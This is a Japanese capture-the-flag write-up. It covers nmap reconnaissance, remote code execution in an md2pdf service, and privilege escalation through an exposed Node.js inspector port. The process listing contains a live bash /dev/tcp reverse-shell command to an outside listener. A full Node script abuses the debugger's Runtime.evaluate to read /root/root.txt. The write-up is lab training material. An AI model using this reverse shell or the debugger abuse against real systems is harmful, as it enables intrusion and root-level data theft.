



# Writeup
とりあえずnmapしてみる
```bash
(base) mionorn124@hoshizakimionoMacBook-Pro Binary % nmap -p- 10.234.128.36                
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-12 14:16 +0900
Nmap scan report for 10.234.128.36
Host is up (0.013s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
2222/tcp open  EtherNetIP-1
3000/tcp open  ppp

```
3000番でなにかあるっぽい
みてみるとmd2pdf?



とりあえずmd2pdfのCVEを探してみる

任意コード実行ができそう \
[ここ](https://github.com/advisories/GHSA-547r-qmjm-8hvw)を参考にしてペイロードを入れてリバースシェルを立てて自分のパソコンで待ち受けしてみる


ここからユーザ一覧を探すとuser.txtがあるのでそれを見れば解決
```
userflag:flag{md_t0_pdf_md_t0_rc3}
```

ここからは権限昇格を考えていく \
rootでうごいてるプロセスを探してみる。
```bash
mark@dev-server:/app/md-to-pdf-front$ ps auxww
ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0   1056   564 ?        Ss   15:28   0:00 /sbin/docker-init -- /entrypoint.sh
root           6  0.0  0.0   5824  3144 ?        S    15:28   0:00 runuser -u mark -- npm start --prefix /app/md-to-pdf-front
root          15  0.0  0.0  12020  2924 ?        Ss   15:28   0:00 sshd: /usr/sbin/sshd [listener] 0 of 10-100 startups
root          16  0.0  0.0   2800   644 ?        S    15:28   0:00 /bin/sh /entrypoint.sh
root          17  0.0  1.1 1490648 46764 ?       Sl   15:28   0:00 node --inspect /app/cleanup/chromium-reaper.js
mark          18  0.0  2.0 1733884 79668 ?       Sl   15:28   0:00 npm start
mark          37  0.0  0.0   2800  1672 ?        S    15:28   0:00 sh -c next start
mark          38  0.2  3.7 3090924 149140 ?      Sl   15:28   0:03 next-server (v16.2.9)
mark        1658  0.4  4.6 55367308 184600 ?     Ssl  15:57   0:00 /usr/bin/google-chrome-stable --allow-pre-commit-input --disable-background-networking --disable-background-timer-throttling --disable-backgrounding-occluded-windows --disable-breakpad --disable-client-side-phishing-detection --disable-component-extensions-with-background-pages --disable-crash-reporter --disable-default-apps --disable-dev-shm-usage --disable-hang-monitor --disable-infobars --disable-ipc-flooding-protection --disable-popup-blocking --disable-prompt-on-repost --disable-renderer-backgrounding --disable-search-engine-choice-screen --disable-sync --enable-automation --export-tagged-pdf --force-color-profile=srgb --generate-pdf-document-outline --metrics-recording-only --no-first-run --password-store=basic --use-mock-keychain --disable-features=Translate,AcceptCHFrame,MediaRouter,OptimizationHints,WebUIReloadButton,ProcessPerSiteUpToMainFrameThreshold,IsolateSandboxedIframes --enable-features=PdfOopif --headless=new --hide-scrollbars --mute-audio --disable-extensions about:blank --no-sandbox --disable-setuid-sandbox --remote-debugging-port=0 --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS
mark        1662  0.0  0.0   2840  1464 ?        S    15:57   0:00 cat
mark        1663  0.0  0.0   2840  1472 ?        S    15:57   0:00 cat
mark        1665  0.0  0.0 54549016 3380 ?       Sl   15:57   0:00 /opt/google/chrome/chrome_crashpad_handler --monitor-self --monitor-self-annotation=ptype=crashpad-handler --database=/home/mark/.config/google-chrome/Crash Reports --url=https://clients2.google.com/cr/report --annotation=channel= --annotation=lsb-release=Ubuntu 24.04.4 LTS --annotation=plat=Linux --annotation=prod=Chrome_Linux --annotation=ver=153.0.8010.36 --initial-client-fd=5 --shared-client-connection
mark        1667  0.0  0.0 54540804 3312 ?       Sl   15:57   0:00 /opt/google/chrome/chrome_crashpad_handler --no-periodic-tasks --monitor-self-annotation=ptype=crashpad-handler --database=/home/mark/.config/google-chrome/Crash Reports --url=https://clients2.google.com/cr/report --annotation=channel= --annotation=lsb-release=Ubuntu 24.04.4 LTS --annotation=plat=Linux --annotation=prod=Chrome_Linux --annotation=ver=153.0.8010.36 --initial-client-fd=4 --shared-client-connection
mark        1672  0.0  1.7 55233044 67732 ?      S    15:57   0:00 /opt/google/chrome/chrome --type=zygote --no-zygote-sandbox --no-sandbox --headless=new --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --no-first-run --ozone-platform=headless --ozone-override-screen-size=800,600 --use-angle=swiftshader-webgl
mark        1673  0.0  1.7 55233040 67900 ?      S    15:57   0:00 /opt/google/chrome/chrome --type=zygote --no-sandbox --headless=new --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --no-first-run --ozone-platform=headless --ozone-override-screen-size=800,600 --use-angle=swiftshader-webgl
mark        1692  0.0  2.0 55340980 80604 ?      Sl   15:57   0:00 /opt/google/chrome/chrome --type=gpu-process --no-sandbox --disable-dev-shm-usage --disable-breakpad --headless=new --ozone-platform=headless --use-angle=swiftshader-webgl --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --gpu-preferences=YAAAAAAAAAAgAAAEAAAAAAAAAAAAAGAASAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAAAMAAAAAAAAAAwAAAAAAAAAAAAAAAAAAAACAAAAAAAAAAMAAAAAQAAAAAAAAAAAAAACAAAAAAAAAAIAAAAAAAAAA== --shared-files --field-trial-handle=3,i,14395880662035428041,1476251681786438129,262144 --enable-features=PdfOopif --disable-features=AcceptCHFrame,IsolateSandboxedIframes,MediaRouter,OptimizationHints,PaintHolding,ProcessPerSiteUpToMainFrameThreshold,Translate,WebUIReloadButton --variations-seed-version --pseudonymization-salt-handle=7,i,10898087752105799609,15740335950463627865,4 --trace-process-track-uuid=3190708988185955192
mark        1695  0.0  2.7 54955340 109608 ?     Sl   15:57   0:00 /opt/google/chrome/chrome --type=utility --utility-sub-type=network.mojom.NetworkService --lang=en-US --service-sandbox-type=none --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --mute-audio --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,14395880662035428041,1476251681786438129,262144 --enable-features=PdfOopif --disable-features=AcceptCHFrame,IsolateSandboxedIframes,MediaRouter,OptimizationHints,PaintHolding,ProcessPerSiteUpToMainFrameThreshold,Translate,WebUIReloadButton --variations-seed-version --pseudonymization-salt-handle=7,i,10898087752105799609,15740335950463627865,4 --trace-process-track-uuid=3190708989122997041
mark        1705  0.0  1.2 55290824 47692 ?      Sl   15:57   0:00 /opt/google/chrome/chrome --type=utility --utility-sub-type=storage.mojom.StorageService --lang=en-US --service-sandbox-type=utility --no-sandbox --disable-dev-shm-usage --use-angle=swiftshader-webgl --mute-audio --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,14395880662035428041,1476251681786438129,262144 --enable-features=PdfOopif --disable-features=AcceptCHFrame,IsolateSandboxedIframes,MediaRouter,OptimizationHints,PaintHolding,ProcessPerSiteUpToMainFrameThreshold,Translate,WebUIReloadButton --variations-seed-version --pseudonymization-salt-handle=7,i,10898087752105799609,15740335950463627865,4 --trace-process-track-uuid=3190708990060038890
mark        1735  0.4  3.4 1518612604 133596 ?   Sl   15:57   0:00 /opt/google/chrome/chrome --type=renderer --top-chrome-webui --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --no-sandbox --disable-dev-shm-usage --disable-background-timer-throttling --disable-breakpad --enable-automation --force-color-profile=srgb --remote-debugging-port=0 --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=5 --launch-time-ticks=1766992394 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,14395880662035428041,1476251681786438129,262144 --enable-features=PdfOopif --disable-features=AcceptCHFrame,IsolateSandboxedIframes,MediaRouter,OptimizationHints,PaintHolding,ProcessPerSiteUpToMainFrameThreshold,Translate,WebUIReloadButton --variations-seed-version --pseudonymization-salt-handle=7,i,10898087752105799609,15740335950463627865,4 --trace-process-track-uuid=3190708990997080739
mark        1744  0.0  1.8 1518587088 71284 ?    Sl   15:57   0:00 /opt/google/chrome/chrome --type=renderer --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --no-sandbox --disable-dev-shm-usage --disable-background-timer-throttling --disable-breakpad --enable-automation --force-color-profile=srgb --remote-debugging-port=0 --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=7 --launch-time-ticks=1767041427 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,14395880662035428041,1476251681786438129,262144 --enable-features=PdfOopif --disable-features=AcceptCHFrame,IsolateSandboxedIframes,MediaRouter,OptimizationHints,PaintHolding,ProcessPerSiteUpToMainFrameThreshold,Translate,WebUIReloadButton --variations-seed-version --pseudonymization-salt-handle=7,i,10898087752105799609,15740335950463627865,4 --trace-process-track-uuid=3190708992871164437
mark        1745  0.0  2.4 1518595924 96084 ?    Sl   15:57   0:00 /opt/google/chrome/chrome --type=renderer --crashpad-handler-pid=1665 --enable-crash-reporter=, --noerrdialogs --user-data-dir=/tmp/puppeteer_dev_chrome_profile-t1lQTS --change-stack-guard-on-fork=enable --no-sandbox --disable-dev-shm-usage --disable-background-timer-throttling --disable-breakpad --enable-automation --force-color-profile=srgb --remote-debugging-port=0 --allow-pre-commit-input --ozone-platform=headless --disable-gpu-compositing --lang=en-US --num-raster-threads=1 --renderer-client-id=6 --launch-time-ticks=1767048562 --shared-files=v8_context_snapshot_data:100 --field-trial-handle=3,i,14395880662035428041,1476251681786438129,262144 --enable-features=PdfOopif --disable-features=AcceptCHFrame,IsolateSandboxedIframes,MediaRouter,OptimizationHints,PaintHolding,ProcessPerSiteUpToMainFrameThreshold,Translate,WebUIReloadButton --variations-seed-version --pseudonymization-salt-handle=7,i,10898087752105799609,15740335950463627865,4 --trace-process-track-uuid=3190708991934122588
mark        1764  0.0  0.0   2800  1644 ?        S    15:57   0:00 /bin/sh -c bash -c 'bash -i >& /dev/tcp/10.246.72.4/4444 0>&1'
mark        1765  0.0  0.0   4324  3372 ?        S    15:57   0:00 bash -c bash -i >& /dev/tcp/10.246.72.4/4444 0>&1
mark        1766  0.0  0.0   4588  3772 ?        S    15:57   0:00 bash -i
mark        1781  0.0  0.0   7892  3924 ?        R    15:59   0:00 ps auxww

```
node --inspect /app/cleanup/chromium-reaper.jsってなんだ？

調べると、「外部のデバッガからJavaScriptを評価したり、実行状態を調べたりできます」らしい

これにJavascript経由でReadさせればroot.txtが見れそうな感じがする。

とりあえず書いて読ませてみる
```JavaScript
// inspector_probe.js
const http = require("node:http");
const WebSocket = require("ws");

http.get("http://127.0.0.1:9229/json/list", (res) => {
  let body = "";

  res.on("data", (chunk) => {
    body += chunk;
  });

  res.on("end", () => {
    let targets;

    try {
      targets = JSON.parse(body);
    } catch (err) {
      console.error("[-] Invalid JSON:", err.message);
      return;
    }

    const target = targets.find((t) => t.type === "node");

    if (!target) {
      console.error("[-] Inspector not found");
      return;
    }

    console.log("[+] Target:", target.title);

    const ws = new WebSocket(target.webSocketDebuggerUrl);

    ws.on("open", () => {
      console.log("[+] WebSocket connected");

      ws.send(JSON.stringify({
        id: 1,
        method: "Runtime.evaluate",
        params: {
          expression: "process.mainModule.require("node:fs").readFileSync("/root/root.txt", "utf8")",
          returnByValue: true
        }
      }));
    });

    ws.on("message", (data) => {
      const result = JSON.parse(data.toString());

      if (result.id === 1) {
        console.log("[+] Evaluation result:");
        console.log(JSON.stringify(result, null, 2));
        ws.close();
      }
    });

    ws.on("error", (err) => {
      console.error("[-]", err.message);
    });
  });
}).on("error", console.error);
```
```bash
mark@dev-server:/app/md-to-pdf-front$ node inspector_probe.js
node inspector_probe.js
[+] Target: /app/cleanup/chromium-reaper.js
[+] WebSocket connected
[+] Evaluation result:
{
  "id": 1,
  "result": {
    "result": {
      "type": "string",
      "value": "flag{d3bug_p0r7_l3f7_0p3n}\n"
    }
  }
}
```
めっちゃめんどくさい権限昇格じゃなくてよかった...


```
rootflag:flag{d3bug_p0r7_l3f7_0p3n}
```

## flag
```
user:flag{md_t0_pdf_md_t0_rc3}
root:flag{d3bug_p0r7_l3f7_0p3n}
```

